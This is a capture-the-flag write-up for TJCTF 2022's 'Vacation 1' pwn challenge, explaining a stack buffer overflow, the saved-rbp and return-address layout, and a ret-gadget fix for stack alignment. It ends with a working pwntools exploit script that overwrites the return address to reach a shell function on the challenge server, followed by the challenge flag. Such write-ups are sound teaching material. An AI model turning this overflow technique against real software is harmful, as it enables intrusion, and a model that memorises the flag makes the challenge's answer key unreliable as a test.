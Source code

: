 # \[Pwn\] - Vacation 1

#### Points = 176

## Prompt

Too much school, too much work, too much writing CTF challenges... can I just go on vacation?

`nc tjc.tf 31680`

by kfb

#### Hints
\[None\]

## Provided Files
[files](../../files/tjctf-2022/vacation-1) - link to files

- `DockerFile`
- `chall.c` - source code
- `chall` - compiled binary

<div style="page-break-after: always"></div>

## Write Up

- ok let's see what this is doing.

![source|500](../images/tjctf-2022/vacation_src.png)

- Breakdown:
	- line #16 - `main()` calls `vacation()`
	- line #9 - `vacation()` allocates 16 bytes on the stack for a buffer
	- line #11 - `fgets()` accepts 64 bytes as input.
		- we can overflow this buffer and overwrite stack values.
	- line #4 - `shell_land()` function gives us a shell which we can use to read the flag.
		- we need to overwrite the return address in `vacation()` to return to `shell_land()`

<div style="page-break-after: always"></div>

#### What the Stack Looks like:

![layout|500](../images/tjctf-2022/vacation_stack.png)

- our input must fill the buffer with 16 bytes
- the next 8 bytes will fill the space for the saved `rbp` register
- the last 8 bytes should be filled with the address of `shell_land()`
- you can find function addresses using gdb: 

![gdb|500](../images/tjctf-2022/vacation_gdb.png)

<div style="page-break-after: always"></div>

#### Modification

- this approach does not work because the stack is not aligned on the target machine
	- since this is a 64-bit machine, all stack addresses are 8 byte aligned.
	- libc functions like `system()` have the extra requirement that the stack is 16 byte aligned.
- **New Approach** -  instead we will jump to any `ret` instruction in the program and then to `shell_land()`
	- an extra `ret` instruction pops a value off the stack which makes it 16 byte aligned if it was not before.

###### Explanation of New Approach

- what `ret` does is pop 8 bytes off the stack into `rip`
- we are going to be executing two `ret` instructions in a row
	- first - at the end of `vacation()`
	- second - the one we are jumping to
- after the first `ret` executes, `rsp` will be pointing right above the address it placed in `rip`, since `ret` is just a fancy `pop` instruction.
- We can jump to a `ret` instruction and then `shell_land()` by placing their addresses consecutively on the stack as shown below.
- I hope I did a good job explaining this `-_(0-0)_-`

![modified|500](../images/tjctf-2022/vacation_mod.png)


#### Solution
- here is a python script which creates a payload as described above.

	```
	from pwn import *

	# location of shell_land() - handles endianness
	ret_instr_addr = p64(0x4011df)
	shell_addr = p64(0x401196)

	# 16B - buffer, 8B - saved rbp
	padding = b'A' * 24

	# final payload
	# jump to a ret instr then to func (fixes alignment issue)
	payload = padding + ret_instr_addr + shell_addr

	# make connection and deliver
	# elf = ELF('./chall')
	# tgt = elf.process()
	tgt = remote('tjc.tf', 31680)
	line = tgt.recvline()

	tgt.sendline(payload)
	tgt.interactive()
	```

- this gives you a shell where you can `cat` the flag

![shell|500](../images/tjctf-2022/vacation_shell.png)
	
## Flag

tjctf{wh4t_a_n1c3_plac3_ind33d!_7609d40aeba4844c}